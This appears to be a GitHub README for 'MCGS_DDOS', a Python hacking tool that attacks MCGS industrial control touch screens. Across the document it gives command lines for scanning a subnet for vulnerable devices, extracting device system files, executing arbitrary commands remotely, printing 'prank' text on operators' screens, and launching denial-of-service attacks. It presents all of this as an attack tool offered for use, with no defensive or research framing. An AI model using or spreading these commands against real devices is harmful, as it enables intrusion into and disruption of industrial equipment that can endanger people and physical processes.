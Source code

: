   <div align="center">
 <p align="center">
 <img title="MCGS" src='https://img.shields.io/badge/MCGS_DDOS-1.0.0-brightgreen.svg' />
 <img title="MCGS" src='https://img.shields.io/badge/Python-3.9-yellow.svg' />
  <img title="MCGS" src='https://img.shields.io/badge/HackerTool-x' />
 <img title="MCGS" src='https://img.shields.io/static/v1?label=Author&message=@Martin&color=red'/>
 <img title="MCGS" src='https://img.shields.io/badge/-Linux-F16061?logo=linux&logoColor=000'/>
 <img title="MCGS" src='https://img.shields.io/badge/-Windows-F16061?logo=windows&logoColor=000'/> 
</p>
  <img height="137px" src="https://github-readme-stats.vercel.app/api?username=MartinXMax&hide_title=true&hide_border=true&show_icons=trueline_height=21&text_color=000&icon_color=000&bg_color=0,ea6161,ffc64d,fffc4d,52fa5a&theme=graywhite" />
  
   
 <table>
  <tr>
      <th>Function</th>
  </tr>
  <tr>
    <th>
        Attack industrial network devices MCGS
    </th>
    
  </tr>
 </table>
</div>

# industrial control equipment

  ![图片名称](./PT/mcgs.png)  

  ![图片名称](./PT/mcgs2.png)  


# usage method
  * View help information

      ```#python3 MCGS_DD.py -h```

  ![图片名称](./PT/help.png)  

# Scan for vulnerabilities in the internal network of industrial control devices (MCGS touch screen)

  ```#python3 MCGS_DD.py -scan 192.168.100.0/24```

  ![图片名称](./PT/scan.png)  

# Attack industrial control devices and obtain device system files

```#python3 MCGS_DD.py -rh 192.168.100.3```

  ![图片名称](./PT/result.png)  
  
# Arbitrary command execution

```#python3 MCGS_DD.py -rh 192.168.100.3 -cmd ipconfig```
  
![图片名称](./PT/ipconfig.png)  

_PS:You can use the (- echo) parameter to print the results on the MCGS touch screen, which is a prank_

```#python3 MCGS_DD.py -rh 192.168.100.3 -cmd Martin_Hacking...........[X_X] -echo```
  
![图片名称](./PT/hacking.png)  

# DDOS attacks

```#python3 MCGS_DD.py -rh 192.168.100.3 -cmd Martin_Hacking...........[X_X] -echo -dd```
  
![图片名称](./PT/ddos.png)  